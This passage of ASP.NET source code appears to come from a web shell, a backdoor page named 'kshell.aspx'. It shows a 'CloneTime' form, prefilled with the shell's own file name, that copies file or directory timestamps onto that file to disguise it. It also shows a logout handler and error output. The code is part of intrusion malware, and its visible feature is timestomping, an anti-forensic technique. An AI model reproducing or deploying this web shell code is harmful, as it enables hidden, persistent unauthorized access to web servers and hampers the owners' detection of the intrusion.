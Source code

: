   <%
    case "clonetime"
		time1.Text=request.QueryString("src")&"kshell.aspx"
		time2.Text=request.QueryString("src")
	%>
<form runat="server">
  <p>[CloneTime for WebAdmin]<i>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<a href="javascript:history.back(1);">Back</a></i> </p>
  <p>A tool that it copy the file or directory's time to another file or directory </p>
  <p>Rework File or Dir:
    <asp:TextBox CssClass="TextBox" ID="time1" runat="server" Width="300"/></p>
  <p>Copied File or Dir:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
    <asp:TextBox CssClass="TextBox" ID="time2" runat="server" Width="300"/></p>
<asp:Button ID="ButtonClone" Text="Submit" runat="server" CssClass="buttom" OnClick="CloneTime"/>
</form>
<p>
  <%
	case "logout"
   		session.Abandon()
		response.Write("<script>alert(' Goodbye !');location.href='" & request.ServerVariables("URL") & "';</sc" & "ript>")
	end select
end if
Catch error_x
	response.Write("<font color=""red""><br>Wrong: </font>"&error_x.Message)
End Try
%>
</p>
</p>
<hr>
<script language="javascript">
function closewindow()
{self.close();}
</script>
</body>
</html>
